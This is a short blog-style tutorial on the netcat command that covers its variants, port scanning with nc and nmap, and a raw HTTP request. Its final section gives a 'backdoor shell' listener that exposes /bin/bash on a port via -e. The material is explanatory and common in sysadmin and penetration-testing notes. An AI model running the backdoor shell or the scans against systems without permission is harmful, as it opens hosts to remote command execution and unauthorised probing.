```yaml
---
layout: post
title: How to use netcat command
author: Jeffrey Tse
categories: computer
tags:
  - computer
  - linux
  - terminal
  - note
---
```


## 1. Introduction

Command `nc` stands for **netcat**, known as the swiss army knife of
network tools, it's a utility which is used for reading and writing
data across TCP and UDP ports. It can be used for a lot of cool
stuff, this article will take a closer look.

There are two similar packages available for netcat with a slight
difference between them:

- Traditional GNU netcat (such as Ncat in the CentOS is nmap package)
- OpenBSD nc (such as the nc that comes with MacOS).

Their parameters are not exactly the same. For example, BSD `nc`
cannot use `-p` and `-l` at the same time, which is easy to cause
confusion for novices.

netcat/nc/ncat/nmap

- **Linux/macOS** users can quickly use in the terminal with pre-installed
  Nc (and Netcat on Linux)
- **Windows** users will need to install Netcat’s successor, Ncat, made
  by the Nmap project

## 2. Using for port scanning

```bash
nc -zv domain.com 1-1000
```

```bash
nc -znv 1.2.3.4 1-1000
```

```bash
nmap -Pn 1.2.3.4
```

- `-z` – See if the port is open without sending data
- `-n` – Dont resolve, numeric-only IP addresses, no DNS lookup
- `-v` – Show verbose information
- `-w` – Set a timeout between the client and the target node, otherwise
  Netcat will continue trying until a connection is made or you manually
  close the attempt (`Ctrl + C`)

## 3. Using for HTTP Requests

```bash
printf “GET / HTTP/1.0\r\n\r\n” | nc google.com 80
```

## 4. Using for Chatroom

## 5. Launching Reverse (Backdoor) Shells

Server:

```bash
nc -l -p [port] -e /bin/bash
```

Client:

```bash
nc -n 127.0.0.1 [port]
```

